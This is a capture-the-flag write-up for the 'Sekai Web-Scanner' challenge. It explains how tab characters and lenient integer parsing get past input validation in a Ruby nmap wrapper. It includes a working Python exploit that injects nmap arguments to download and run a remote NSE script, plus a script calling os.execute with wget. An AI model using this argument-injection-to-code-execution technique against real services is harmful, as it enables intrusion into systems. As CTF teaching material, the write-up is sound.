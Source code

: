 ## Sekai Web-Scanner Writeup

Inspecting the source code, we find that the app provides options to scan a user specified host port pair using nmap, and passes the user input to the shell. However, there are some protections in place, which validate both the host and port. They are all located in the helper module.

Let's examine first `valid_port`:
```ruby
def valid_port?(input)
  !input.nil? and (1..65535).cover?(input.to_i)
end
```

It first checks whether the given value is defined and then converts it to an integer in order to check whether it lies in a valid port range. Checking the documentation, we notice that `to_i` will try to interpret the leading characters as an int, even if the characters following are not decimals:

```ruby
"99 red balloons".to_i   #=> 99
```

This allows to bypass the checks for a valid port.

Lets continue with `valid_ip`, which uses a regex to validate whether a string is a valid ipv4:

```ruby
def valid_ip?(input)
  pattern = /\A((25[0-5]|2[0-4]\d|[01]?\d{1,2})\.){3}(25[0-5]|2[0-4]\d|[01]?\d{1,2})\z/
  !input.nil? and !!(input =~ pattern)
end
```

The regex is safe - notice the anchor flags, we can't just inject a newline to bypass these checks.

The `escape_shell_input` is called on our specified parameter before the two previous checks are invoked. We can see that there are some shell characters escaped. However, tabs are not blocked. 

Lets take a look at the endpoint:

```ruby
input_service = escape_shell_input(params[:service])
hostname, port = input_service.split ':', 2

...

if valid_ip? hostname and valid_port? port
  # Service up?
  s = TCPSocket.new(hostname, port.to_i)
  s.close
  # Assuming valid ip and port, this should be fine
  @scan_result = IO.popen("nmap -p #{port} #{hostname}").read
else
  @scan_result = "Invalid input detected, aborting scan!"
end
```

Since we can use tabs, we can inject further arguments. We can abuse nmap's script engine to both exfil files and rce. In this writeup, we go for the latter, using the following steps:

1. Create a nmap script to be executed. We will refer to it as `evil.nse`:
```bash
$ cat evil.nse
os.execute("wget 127.0.0.1:8080/pwned")
```

> Make sure to use either port 80 or 8080, otherwise the exploit wont complete successfully.

2. Use `--script http-fetch` to download this script to the remote machine
3. Execute the script

The steps are summarized in the following script:
```python
#!/usr/bin/python3
import requests
import random
import string
import time
import sys
import re


def random_string(length=10):
    return "".join(random.choice(string.ascii_lowercase) for _ in range(length))

if len(sys.argv) < 3:
    print(f"Usage: {sys.argv[0]} <lhost> <lport>")
    exit(1)

TARGET = "http://scanner-service.chals.sekai.team/"
LHOST = sys.argv[1]
LPORT = int(sys.argv[2])
NSE_SCRIPT = "evil.nse"
DOWNLOAD_DIR = "/tmp/" + random_string()

with open(NSE_SCRIPT, "w") as f:
    f.write("os.execute('cat /flag*')")

requests.post(
    TARGET,
    data=f"service={LHOST}:{LPORT} --script http-fetch -Pn --script-args http-fetch.destination={DOWNLOAD_DIR},http-fetch.url={NSE_SCRIPT}".replace(
        " ", "\t"
    ),
)

print("You should now receive a request on your http server")

time.sleep(5)

# execute nse script
response = requests.post(
    TARGET,
    data=f"service={LHOST}:{LPORT} --script={DOWNLOAD_DIR}/{LHOST}/{LPORT}/{NSE_SCRIPT}".replace(
        " ", "\t"
    ),
)

matches = re.search(r"SEKAI\{[^\}]+\}", response.text)
if matches:
    print("Flag:", matches.group(0))
else:
    print("We failed?")
```